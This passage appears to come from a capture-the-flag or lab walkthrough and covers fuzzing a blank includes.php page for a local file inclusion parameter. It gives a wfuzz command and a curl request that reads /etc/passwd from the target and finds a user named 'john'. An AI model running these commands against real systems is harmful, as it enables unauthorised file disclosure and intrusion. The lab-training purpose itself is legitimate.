


3.2 Fuzzing
•
The “includes.php” page is blank. You can try to fuzz it to check out what parameter can be used for a LFI.
1. Run the following command.
$ wfuzz -c --hc=404 --hh=2 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.12.70/includes.php?FUZZ=/etc/passwd'
Output:

2. You can list files from the victims machine.
$ curl -s -X GET http://192.168.12.70/includes.php?display_page=/etc/passwd
Output:

You can see there's a user called “john”.